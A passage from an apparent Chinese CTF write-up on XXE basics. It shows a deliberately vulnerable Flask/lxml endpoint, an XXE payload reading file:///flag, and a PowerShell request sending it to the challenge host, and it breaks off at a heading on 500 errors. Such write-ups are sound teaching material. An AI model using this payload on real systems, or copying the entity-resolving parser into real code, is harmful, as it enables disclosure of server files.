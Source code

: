 # XML 和 XXE 漏洞基础

## 题目
from flask import Flask,request import base64 from lxml import etree import re app = Flask(__name__) @app.route('/') def index(): return open(__file__).read() @app.route('/ghctf',methods=['POST']) def parse(): xml=request.form.get('xml') print(xml) if xml is None: return "No System is Safe." parser = etree.XMLParser(load_dtd=True, resolve_entities=True) root = etree.fromstring(xml, parser) name=root.find('name').text return name or None if __name__=="__main__": app.run(host='0.0.0.0',port=8080)

## 思路和解题过程：

### **操作步骤**

#### **1. 修正 XML 内容**
正确的 XML 应为：
```xml
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///flag">
]>
<root>
  <name>&xxe;</name>
</root>
```

#### **2. 通过文件传递 XML（推荐）**
在 PowerShell 中直接传递包含 `&` 符号的 XML 容易出错，建议将 XML 保存为文件：

- **创建文件 `payload.xml`**  
  用记事本新建文件，内容如下（确保无额外空格）：
  ```xml
  <!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///flag">
  ]>
  <root>
    <name>&xxe;</name>
  </root>
  ```

- **发送请求**  
  在 PowerShell 中运行：
  ```powershell
  # 从文件读取 XML 内容
  $xmlContent = Get-Content -Path .\payload.xml -Raw
  # 发送 POST 请求
  Invoke-WebRequest -Uri "http://node2.anna.nssctf.cn:28053/ghctf" -Method POST -Body @{xml=$xmlContent}
  ```

#### **3. 如果仍返回 500 错误**
可能原因和解决方案：
